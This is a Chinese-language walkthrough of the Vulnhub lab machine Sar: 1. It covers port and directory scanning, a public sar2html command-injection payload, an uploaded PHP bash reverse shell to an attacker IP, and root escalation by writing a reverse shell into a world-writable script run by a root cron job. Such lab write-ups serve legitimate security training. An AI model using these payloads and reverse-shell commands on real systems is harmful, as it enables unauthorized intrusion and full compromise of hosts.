# 前言

### 靶场介绍

Sar: 1 是一台 Vulnhub 中的 Linux 靶机，核心攻击面为 Web 应用中，结合靶机上可写的计划任务脚本完成提权，最终获取 Root 权限。
### 靶场信息

| 字段     | 值                                        |
| ------ | ---------------------------------------- |
| 靶机名    | Sar: 1                                   |
| 靶机 IP  | 192.168.200.161                          |
| 靶机 URL | https://www.vulnhub.com/entry/sar-1,425/ |
| 下载（镜像） | https://download.vulnhub.com/sar/sar.zip |
| 目标     | 获取 Root 权限                               |

### 涉及工具

- Nmap
- Dirsearch
- Searchsploit / ExploitDB
- Msfvenom
- Netcat (nc)

---

# 1. 信息收集

## 1.1 Nmap信息扫描

### 端口扫描

```bash
nmap -sT -p- --min-rate 10000 192.168.200.161
```



> 开放端口：80

### 详细信息

```bash
sudo nmap -sT -sV -sC -O -p80 192.168.200.161 -oA detail
```



### UDP扫描

tcp 开放端口过少，扫描 UDP 服务。

```bash
sudo nmap -sU --top-ports 20 192.168.200.161 -oA udp
```



现在这台靶机应该只开放 80，我们的立足点应该也在 80。

## 1.2 Web探测

### 目录枚举

```bash
dirsearch -u 'http://192.168.200.161/' -o dirs.txt
```



重点两个结果：

```
[20:57:54] 200 -   24KB - /phpinfo.php
[20:57:55] 200 -    9B  - /robots.txt
```

访问 `robots.txt`，发现路径 `sar2HTML`：

```
http://192.168.200.161/robots.txt
→ sar2HTML

http://192.168.200.161/sar2HTML/
```



---

# 2. 权限立足

## 2.1 Web渗透

网页上说：

> Use built in report generator:
> - Click "NEW" button, enter ip address of host, user name and password and click "Capture report" button.
> - Or simply type `sar2html -a [host ip] [user name] [password]` at command prompt.

对网页执行基础操作，查看网页功能和检查网页源代码猜测有点像是远程命令执行，还有一个文件上传的入口。



这里有一个传输数据的接口，尝试了以后并没有执行命令，或许是我的方式不对：

```
ipaddr=1&userna=2&passwd=3&task=addhost&plot=NEW&Submit=Capture+report
```

尝试不行，搜索标题 `sar2html Ver 3.2.1`，好家伙跳出来的全是漏洞，那么这应该是一个 CMS 服务，用公开 exp 就能拿下，不需要我们自己去探测。



在 Kali 中搜索漏洞相关信息：

```bash
searchsploit sar2html
```



一个是交互式 shell，一个是告诉你怎么利用这个漏洞的报告。

查看 `php/webapps/47204.txt`，payload 如下：

```
http://<ipaddr>/index.php?plot=;<command-here>

# 示例：
http://192.168.200.161/sar2HTML/index.php?plot=;ls
```



## 2.2 反弹Shell

问题是现在怎么通过这个命令注入去提升交互性更强的 shell。

~~生成 shell 上传 寻找目录~~ 生成的反弹有问题，改为最基础的反弹 shell，并结合文件上传拿下webshell。

```bash
sudo msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.200.142 lport=4444 -f raw > sar.php
```



重写反弹 shell 文件。

```bash
# vim shell.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4444 0>&1'"); ?>
```

这里遇到了一个直接将配置通过 URL 方式传输的问题，编码上有问题。结合之前探测到的一个点——有个文件上传入口，我决定通过这个上传路径去上传文件，如果不行，再去解决URL编码的问题。



执行交互式 shell exp，对目录进行探测，找出上传路径。

```bash
python ./49344.py
Enter The url => http://192.168.200.161/sar2HTML/
Command => ls
HPUX
Linux
SunOS
LICENSE
index.php
sar2html
sarDATA
sarFILE

Command => ls -l sarDATA
HPUX
Linux
SunOS
total 8
drwxr-xr-x 2 www-data www-data 4096 May 25 08:06 sar2html.21729
drwxr-xr-x 2 www-data www-data 4096 May 25 08:06 uPLOAD   # <-- 上传目录

Command => ls -l sarDATA/uPLOAD
HPUX
Linux
SunOS
total 4
-rw-r--r-- 1 www-data www-data 1116 May 25 08:06 sar.php
```

访问存放反弹 shell 的网页，Kali 开启监听，触发反弹 shell。

```
http://192.168.200.161/sar2HTML/sarDATA/uPLOAD/shell.php
```



---

# 3. 提权

## 3.1 信息收集

这里省略了一些基础信息的收集，只保留了提权的攻击链。

### 计划任务

```bash
www-data@sar:/var/www/html/sar2HTML/sarDATA/uPLOAD$ cat /etc/crontab
# /etc/crontab: system-wide crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh   # <-- root 每 5 分钟执行一次
```

## 3.2 Cron Job 提权

查看 `/var/www/html/` 目录：

```bash
www-data@sar:/var/www/html$ ls -liah
total 40K
408197 -rwxr-xr-x 1 root     root       22 Oct 20  2019 finally.sh
405623 -rw-r--r-- 1 www-data www-data  11K Oct 20  2019 index.html
408195 -rw-r--r-- 1 www-data www-data   21 Oct 20  2019 phpinfo.php
400981 -rw-r--r-- 1 root     root        9 Oct 21  2019 robots.txt
405734 drwxr-xr-x 4 www-data www-data 4.0K Oct 20  2019 sar2HTML
408199 -rwxrwxrwx 1 www-data www-data   30 Oct 21  2019 write.sh   # <-- 全局可写！

www-data@sar:/var/www/html$ cat finally.sh
#!/bin/sh

./write.sh   # <-- finally.sh 调用 write.sh
```

`finally.sh` 由 root 通过 cron 每 5 分钟执行，且它调用了全局可写的 `write.sh`，直接往 `write.sh` 里写反弹 shell。

注意：反弹 shell 要写执行脚本的**第一条命令位置**（写在最后无法执行）：

```bash
# vi write.sh

www-data@sar:/var/www/html$ cat write.sh
#!/bin/sh
/bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4443 0>&1'
touch /tmp/gateway
```

等待 cron 触发，通过 nc 反弹获得 root shell。



## 3.3 获取 Flag

```bash
root@sar:~# ls -liah
total 44K
282877 -rw-r--r--  1 root root   33 Oct 20  2019 root.txt

root@sar:~# cat root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
```



---

# 4. 总结

非常简单的一台靶机，从 CMS 利用 -->上传反弹 shell --> 计划任务提权。都是之前靶机试过很多次的内容。

不过我还是不够细心，在 Web 探测的时候觉得系统这么简陋，就没往他说 CMS 这块去想，还有我觉得 CMS 都是 Blog 系统的思维定式有点影响到我了。

提权时，我写入反弹 shell 的方法出了点问题导致用了很长时间才成功。

